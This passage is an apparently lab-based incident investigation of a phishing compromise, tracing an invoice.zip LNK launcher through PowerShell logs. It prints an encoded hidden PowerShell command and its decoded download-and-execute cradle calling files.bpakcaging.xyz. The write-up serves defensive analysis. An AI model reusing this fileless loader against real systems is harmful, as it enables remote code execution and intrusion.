

# 1.0 Scenario Overview

This investigation analyses a phishing-based compromise that resulted in malicious PowerShell execution, attacker-controlled activity, and data exfiltration from a Windows workstation.

The attack began with a phishing email containing an encrypted attachment. Once executed, the attachment launched an encoded PowerShell command that established communication with attacker-controlled infrastructure and initiated a series of malicious activities on the victim machine.

Using PowerShell logs, packet capture analysis, and email artefacts, the investigation reconstructed the attacker’s actions, including tool downloads, system enumeration, sensitive file access, and outbound data transfers.

The objective of this investigation was to identify how the compromise occurred, trace the attacker’s activity across the system and network, and determine the overall impact of the intrusion.

---

# 2.0 Investigation Flow

## 2.1 Initial Access (Phishing Email Execution Chain)

The intrusion began with a phishing email delivered to the victim’s mailbox. The email contained a malicious encrypted attachment (`invoice.zip`) designed to bypass basic email filtering mechanisms while appearing legitimate to the user.

Analysis of the attachment revealed that the archive contained a malicious `.lnk` shortcut file which acted as the initial execution trigger.

Once executed, the LNK file launched an encoded PowerShell command responsible for initiating outbound communication with attacker-controlled infrastructure.

### Evidence: Phishing Email


### Evidence: LNK File Analysis



### Initial Access Summary

The phishing email delivered a malicious attachment which, upon execution, triggered a LNK-based launcher that initiated an encoded PowerShell command, marking the beginning of endpoint compromise.

---

## 2.2 PowerShell Execution Analysis

### Encoded PowerShell Command

The following encoded PowerShell command was identified during the investigation:

```powershell
-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```

The command uses several PowerShell execution parameters commonly associated with malicious activity:

| Parameter             | Purpose                                 |
| --------------------- | --------------------------------------- |
| `-nop`                | Prevents loading the PowerShell profile |
| `-windowstyle hidden` | Hides the PowerShell execution window   |
| `-enc`                | Executes a Base64-encoded command       |

The use of encoded commands and hidden execution behaviour is consistent with PowerShell obfuscation and execution evasion techniques frequently observed in phishing-based intrusions.

---

## 2.2.1 Decoded Payload Analysis

Decoding the Base64 payload revealed the following command:

```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

### Command Breakdown

| Component                  | Function                                                     |
| -------------------------- | ------------------------------------------------------------ |
| `iex`                      | Executes the downloaded content directly in memory           |
| `new-object net.webclient` | Creates a web client object for network communication        |
| `downloadstring()`         | Downloads remote content from an external server             |
| `files.bpakcaging.xyz`     | Attacker-controlled infrastructure used for payload delivery |

The decoded payload shows the use of PowerShell to retrieve and execute remote content directly from attacker-controlled infrastructure without writing a payload to disk.

This behaviour is consistent with fileless malware techniques designed to reduce forensic artefacts and evade traditional endpoint detection.

---

## 2.2.2 Attack Behaviour Classification

The observed PowerShell activity demonstrates several common attacker techniques:

### Living-off-the-Land (LOLBins)

The attacker abused legitimate PowerShell functionality already present on the operating system rather than deploying a traditional malware binary.

### Fileless Payload Execution

The malicious script was executed directly in memory using `Invoke-Expression`, reducing the likelihood of file-based detection.

### Staged Payload Delivery

The decoded PowerShell command functioned as a first-stage loader responsible for retrieving additional malicious content from external infrastructure.

### Analysis Summary

The encoded PowerShell command indicates an attempt to execute a hidden script that retrieves and runs additional malicious content from an attacker-controlled domain. The use of encoded execution parameters and hidden execution windows strongly suggests deliberate obfuscation intended to evade detection mechanisms.

---

## 2.3 Attacker Activity & PowerShell Log Analysis

Following identification of the initial PowerShell payload, further investigation focused on analysing PowerShell operational logs to reconstruct attacker behaviour and determine the extent of compromise.

The provided PowerShell logs were stored in JSON format and parsed using `jq`, a lightweight command-line JSON processor, allowing efficient filtering and chronological analysis of attacker activity.

### Example Investigation Commands

```bash
cat powershell.json | jq | grep -Ei "xyz"
```

```bash
cat powershell.json | jq | grep -Ei "sq3.exe"
```

```bash
cat powershell.json | jq | grep -Ei "kdbx"
```

Analysis of the PowerShell logs revealed:

* Communication with attacker-controlled domains
* Remote payload downloads
* Execution of enumeration utilities
* Access to sensitive local files
* Data exfiltration activity

This telemetry provided critical visibility into the attacker’s post-compromise actions and allowed reconstruction of the intrusion timeline.
